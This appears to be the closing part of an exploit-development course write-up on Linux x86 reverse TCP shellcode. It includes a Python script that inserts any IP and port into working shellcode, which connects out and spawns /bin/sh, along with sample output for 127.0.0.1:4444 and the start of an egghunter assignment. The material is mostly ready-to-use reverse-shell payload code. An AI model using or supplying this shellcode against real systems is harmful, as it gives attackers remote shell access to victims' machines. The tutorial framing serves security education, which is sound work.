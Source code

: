 I hope you enjoyed learning how to create a simple shell-reverse-tcp using shellcode!

As an added bonus, I've included a python script that allows you to dynamically restructure shellcode to allow for the swapping of IP's and ports.

```
#!/usr/bin/python
import sys,socket

if len(sys.argv) != 3:
  print "Fail!"

ipbts           = bytearray(socket.inet_aton(sys.argv[1]))
incremented     = [b+1 for b in ipbts]
ip              = "".join(["\\x" + format(b, 'x') for b in incremented])
port_number     = int(sys.argv[2])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
port            = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xc9\\xb9"
print("Ip is: ")
print(ip)
shellcode+= ip # "\\x80\\x01\\x01\\x02"
shellcode+="\\x81\\xe9\\x01\\x01\\x01\\x01\\x51\\x66\\x68"
print("Port is: ")
print(port)
shellcode+= port
shellcode+="\\x43\\x66\\x53\\x89"
shellcode+="\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\x43\\xcd\\x80\\x31\\xc9\\xb1\\x02\\x31\\xc0"
shellcode+="\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f"
shellcode+="\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80";

print(shellcode)
```
```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment# python ip-port-changer.py 127.0.0.1 4444
Ip is: 
\x80\x1\x1\x2
Port is: 
\x11\x5c
\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

# Assignment 3

# Egghunter Requirements
- Study about Egg Hunter Shellcode
- Create a working egghunter demo
- Make demo configurable for different payloads

